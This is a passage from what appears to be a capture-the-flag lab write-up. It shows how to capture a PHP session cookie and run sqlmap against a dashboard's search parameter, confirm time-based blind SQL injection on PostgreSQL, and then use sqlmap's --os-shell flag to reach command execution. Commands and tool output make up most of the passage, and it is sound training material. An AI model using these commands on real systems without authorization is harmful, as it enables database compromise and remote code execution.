 The cookies in the HTTP request is usually set like this:

`PHPSESSID=d650eoacf59r8mgcf2t1t8dgmc`

Knowing this, we can construct and execute our 'SQLmap' command.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap -u 'http://10.129.102.117/dashboard.php?search=haxxx' --cookie="PHPSESSID=d650eoacf59r8mgcf2t1t8dgmc"
        ___
       __H__                                                                                                                                                          
 ___ ___[.]_____ ___ ___  {1.6.4#stable}                                                                                                                              
|_ -| . ["]     | .'| . |                                                                                                                                             
|___|_  [.]_|_|_|__,|  _|                                                                                                                                             
      |_|V...       |_|   https://sqlmap.org                                                                                                                          

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:55:40 /2022-04-14/

[10:55:41] [INFO] testing connection to the target URL
[10:55:41] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:55:41] [INFO] testing if the target URL content is stable

(...) 

[10:56:32] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable
[10:56:32] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
```

We have now confirmed that the URL is vulnerable to SQL injection.

We can try and exploit it by adding `--os-shell` as a flag.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap -u 'http://10.129.102.117/dashboard.php?search=haxxx' --cookie="PHPSESSID=d650eoacf59r8mgcf2t1t8dgmc" --os-shell
        ___
       __H__                                                                                                                                                          
 ___ ___[.]_____ ___ ___  {1.6.4#stable}                                                                                                                              
|_ -| . [.]     | .'| . |                                                                                                                                             
|___|_  [,]_|_|_|__,|  _|                                                                                                                                             
      |_|V...       |_|   https://sqlmap.org                                                                                                                          

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:05:16 /2022-04-14/

[11:05:16] [INFO] resuming back-end DBMS 'postgresql' 
```